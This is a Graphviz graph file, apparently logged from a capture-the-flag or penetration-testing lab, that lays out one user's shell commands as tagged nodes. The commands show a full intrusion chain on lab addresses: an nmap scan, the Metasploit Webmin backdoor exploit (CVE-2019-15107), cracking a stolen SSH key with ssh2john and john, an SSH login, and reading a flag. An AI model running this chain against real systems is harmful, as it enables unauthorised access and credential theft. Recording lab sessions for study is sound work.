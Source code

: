 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 M0 A1 "]
	1 [label="msf U"]
	2 [label="metasploit U"]
	3 [label="msfconsole A2 M2 "]
	4 [label="search webmin 1.920 A3 M3 "]
	5 [label="search cve:2019-15107 A3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	7 [label="show options A5 M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run V8 "]
	11 [label="show options V5 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run V8 "]
	15 [label="set LHOST 0.0.0.0 A6 M6 "]
	16 [label="run V8 "]
	17 [label="show options V5 "]
	18 [label="search edb:47230 A3 "]
	19 [label="search webmin V3 "]
	20 [label="banner U"]
	21 [label="info U"]
	22 [label="connect U"]
	23 [label="run V8 "]
	24 [label="show options V5 "]
	25 [label="set LHOST 10.1.135.83 V6 "]
	26 [label="run V8 "]
	27 [label="ls A10 "]
	28 [label="pwd U"]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py A13 M13 A14 A16 "]
	33 [label="connect U"]
	34 [label="touch r.txt U"]
	35 [label="cp /tmp.r.txt rsa_d U"]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d V13 "]
	38 [label="python ssh2john.py rsa_d > john_rsa V13 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 V13 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt A14 M14 "]
	52 [label="john --show A5 A14 "]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show A5 A14 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz V14 "]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	60 [label="tar -xvf rockyou.txt.gz U"]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	63 [label="ls A10 "]
	64 [label="john john_rsa A14 "]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	67 [label="john A14 "]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show V14 "]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left V14 "]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right V14 "]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show V14 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH V14 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH V14 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	82 [label="john --show A5 A14 "]
	83 [label="john --show john_rsa A5 A14 "]
	84 [label="python ssh2john.py r.txt > rsa3 V13 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	86 [label="john A14 "]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose V14 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS V14 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH V14 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa V14 "]
	93 [label="show rsa_ A5 "]
	94 [label="show rsa_d A5 "]
	95 [label="john --show rsa_d A5 A14 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash V13 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash V13 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	100 [label="john --show hash A5 A14 "]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	102 [label="john --wordlist=all.lst hash V14 "]
	103 [label="sudo john A14 "]
	104 [label="john --show hash --format=SSH A5 A14 "]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules V14 "]
	106 [label="john --show hash --format=SSH A5 A14 "]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	108 [label="john --show hash --format=SSH A5 A14 "]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	110 [label="ls A10 "]
	111 [label="echo '!hellokitty!!' > wl.txt U"]
	112 [label="john --wordlist wl.txt hash V14 "]
	113 [label="ls A10 "]
	114 [label="john --show hash A5 A14 "]
	115 [label="echo -n '!hellokitty!!' > wl.txt U"]
	116 [label="john --wordlist wl.txt hash V14 "]
	117 [label="john --show hash A5 A14 "]
	118 [label="john --show --format=SSH                             hash A5 A14 "]
	119 [label="cat /tmp/id_rsa A12 M12 A17 "]
	120 [label="python ssh2john.py /tmp/id_rsa V13 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	123 [label="la U"]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash V13 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt V14 "]
	127 [label="john --show id_rsa A5 A14 "]
	128 [label="john --show hash A5 A14 "]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash V14 "]
	130 [label="john --show hash A5 A14 "]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash V14 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash V14 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 A16 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa A16 "]
	137 [label="ssh eve@10.1.17.4 V16 "]
	138 [label="ls A10 "]
	139 [label="ls -a A10 "]
	140 [label="chown 0044 U"]
	141 [label="chown 0044 id_rsa U"]
	142 [label="ssh-add id_rsa A16 "]
	143 [label="ssh eve@10.1.17.4 V16 "]
	144 [label="ls A10 "]
	145 [label="cd top-secret/ U"]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A12 A17 "]
	148 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
